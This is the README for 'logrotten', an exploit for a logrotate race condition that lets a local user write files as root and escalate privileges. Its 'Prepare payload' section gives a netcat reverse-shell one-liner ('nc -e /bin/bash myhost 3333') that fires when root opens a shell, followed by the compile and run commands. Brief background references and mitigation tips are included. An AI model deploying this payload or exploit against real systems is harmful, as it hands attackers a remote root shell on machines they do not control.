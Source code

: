 # logrotten - a logrotate exploit

## Brief description
  - logrotate is prone to a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/logrotate/logrotate/issues/216 )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## Run exploit
```
./logrotten /tmp/log/pwnme.log payloadfile
```

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges


